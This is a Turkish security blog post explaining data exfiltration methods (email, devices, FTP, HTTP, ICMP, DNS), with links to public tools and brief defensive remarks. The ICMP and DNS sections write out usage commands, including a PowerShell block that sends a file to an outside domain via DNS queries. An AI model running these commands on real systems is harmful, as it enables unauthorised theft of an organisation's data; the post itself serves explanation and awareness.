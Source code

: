 Title: Data Exfiltration
Date: 2018-11-11 13:48
Tags: data exfil, veri kaçırma, veri kaçırma yöntemleri, data exfiltration türkçe, veri güvenliği
Category: Siber Güvenlik
Slug: data-exfiltration
Authors: 0x656e




**Bu yazı tamamen bilgilendirme amaçlıdır.**
## Data Exfiltration Nedir?

Bir kişi veya grubun yetkisiz bir biçimde bir veriyi başka bir bilgisayar yada sunucuya kopyalaması, transfer etmesi anlamına gelir. Data extrusion(veri çıkarma), data exportation(veri ihracati!), data theft(veri hırsızlığı) olarak da bilinir.

Örnek vermek gerekirse bir banka çalışanının bankaya ait verileri bir USB(!) içerisinde dışarıya çıkartması bir suçtur. Fakat işler her zaman bu şekilde USB gibi şeyler ile de olmamaktadır. Bazen veri kaçırmayı tanımlamak çok zor hale gelebilmektedir. Farklı yöntemleri vardır.

Bu yazıda sizlere yöntemlerinden kısaca bahsedeceğim.



## Basit Yöntemler 

### E-Posta
Aklımıza gelebilecek en kolay çözüm bir veriyi kaçırmak istersek bunu eposta ile gönderebilir ve karşı tarafta indirerek işlem tamamlanmış olabilir. Fakat burada engelleme adına Email gatewayler karşımıza çıkmaktadır. Email gatewayler temel olarak mail içerisinde zararlı var mı diye kontrol eder fakat içerisinde data kaçırmaya karşı modüllerde bulunmaktadır. Tabi burada Titus gibi yazılımlar ile birlikte datanın sınıflandırması, arkaplanda bunların loglarının tutulması da bir engel olarak görülebilir.

`Parola korumalı bir sıkıştırılmış dosyayı nasıl farkedeceklerini bilmiyorum. Ama farkedemeyeceklerini düşünüyorum.`


### Cihazlara Yüklemek

Günümüzde yanımızda bir çok akıllı cihaz taşıyoruz. Bu kısımda kurum içerisinde ki bir datayı kaçırmak isteyen kişinin telefonuna, taşınabilir diskine, laptop kullanılıyorsa bluetooth ile telefonuna atması işten bile değildir. Hatta günümüzde web.whatsapp gibi bir arayüz ile whatsapp üzerinden bile kaçırılabilir.

`Bu kısım sıkı bir takip istemekte birlikte nasıl engellenebileceği konusunda bir yorumum dahi bulunmamaktadır.`

## Teknik Yöntemler

Bu kısımda data exfiltration kısmında karşımıza bir çok yöntem çıkmakta tabi ki teknik zorlukları da bulunmaktadır. 


### FTP&SFTP
Aslında çokta teknik olmayan bir konudur. Uzaktaki bir sunucuya FTP&SFTP servis kurulur ve veriler bu servisler aracılığı ile dışarıya çıkartılabilir.

Önlemek için giden trafiği inceleyecek güvenlik cihazları/yazılımları yeterli olacaktır. Trafik içerisinde gönderilen trafik boyutuda önemli bir faktördür tabi ki. Zaten çoğu güvenlik ürünü anomaly'i farkedecektir.

### HTTP Methodları ile Göndermek

Bu kısımda çok teknik bir konu değildir aslında. Basit bir Web Servis yazıp bu web servise bir form koyup buradan gelecek tüm verinin arkaplanda ayrı ayrı yazıldığını düşünürseniz gayet kolaydır. Hatta çıkartılacak veriyi binary code çevirip basarsanız ve arkaplanda tekrar eski haline çevirirseniz ihtiyaçlarınızı karşılayacaktır.

## 

**Asıl Bahsetmek İstediğim Kısıma Gelelim**

Bu kısımdan önceki yazılar tamamen genel anlamda nasıl olduğundan bahsetmek amacıylaydı.



Bu kısımda daha önce karşıma çıkmış olan 2 adet yöntemden bahsedeceğim, zaten yazının ana konusu bu 2 yöntemdir.


### ICMP Data Exfiltration

ICMP protokolü kullanılarak yapılan yöntemdir. Yani genel anlamda bizim bildiğimiz ping komutu ile birlikte yapılan işlemlerdir. ICMP protokolü içerisinde çok fazla data veya bilgi barındırmaz basit yapıda bir protokoldür bu sebeple data exfiltration işlemleri yavaş ilerleyecektir. Kişiler ICMP Echo Requestler içerisinde göndermek istedikleri datanın binary halini atarak dışarıya veri sızdırabilmektedirler.

ICMP Paketlerinin boyutu 74 bytedır. Data exfiltration kısmında genellikle 100 byte ile 542 byte arasını geçmemektedir.

`Engellemek adına yeni nesil tüm cihazlar bozuk ICMP paketlerini tespit edebilecek seviyededirler.`

#### Nasıl Yapılır?

[ICMPExfil](https://github.com/martinoj2009/ICMPExfil)

Yukarıda vermiş olduğum linkteki araç ile ping.py ve server.py dosyaları kullanılarak bu işlem gerçekleştirilebilir.

`ping.py --ip PINGATACAGINIZSERVER --asciiFile göndereceğinizdosya`


### DNS Data Exfiltration

DNS üzerinden data exfiltration yapmaya yarar. DNS'in çalışma mantığını kullanır. 
Nedir DNS'in çalışma mantığı?

Gitmek istediğimiz bir domain'e ait olan IP'yi dünya üzerindeki veya bizim kendi networkümüzde bulunan bir DNS sunucuya sorar. DNS sunucuda kendisinde var ise bu domaine ait olan IP'yi geri döndürür ve site girmiş olursunuz, eğer yoksa sormuş olduğunuz dns servisi bir üst makama gidip root dns sunucularına sorar ve size de bu şekilde elçilik yapmış olur.

Bu kısımda data exfiltration için DNS sorgusu içerisinde ki CNAME ve TXT kayıtları kullanılmaktadır. Bu sayede paket içerisine yapısal olmayan bir çok veri koyulabilmektedir. 


#### Nasıl Yapılır

[DNS Exfiltrator](https://github.com/Arno0x/DNSExfiltrator)

Bu kısımda kendinize ait bir sunucunuz olması gerekmektedir. Yukarıda vermiş olduğum link içerisinden dnsefiltrator.py dosyasını belirli argümanlarla çalıştırmanız gerekmektedir. Yazılım defaultta RC4 şifreleme yapmaktadır bu sebeple argüman olarak vermiş olduğunuz parola oldukça önemlidir.

Server üzerinde 
`dnsexfiltrator.py -d domain -p PAROLA`


Client üzerinde
```
c:\DNSExfiltrator> powershell
PS c:\DNSExfiltrator> Import-Module .\Invoke-DNSExfiltrator.ps1
PS c:\DNSExfiltrator> Invoke-DNSExfiltrator -i inputFile -d mydomain.com -p password -s my.dns.server.com -t 500

```

* -i argümanı ile göndermek istediğiniz dosya 
* -d argümanı ile server kısmında belirlemiş olduğunuz domainismi 
* -p kısmı ile server kısmında belirtmiş olduğunuz encrytion için kullanılacak parola 
* -s kısmında ise sunucunuzun IP adresi 
* -t kısmında ise throttleTime yani DNS sorguları arasında geçecek süreyi girmeniz gerekmektedir.(MS)

Dilerseniz -h parametresini kullanarak Google, CF gibi HTTP üzerinden DNS servislerinide kullanabilirsiniz.


Yazıyı burada sonlandırıyorum. Daha detaylı bilgilere ulaşmak veya daha fazla teknik okumak/görmek isterseniz aşağıdaki linki kullanabilirsiniz.

[Data Exfiltration Techniques](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)


**Burada anlatılanlar hakkında yaptığınız,yapacağınız tüm işlemlerden sizler sorumlusunuz. Mesuliyet kabul edilmemektedir.**

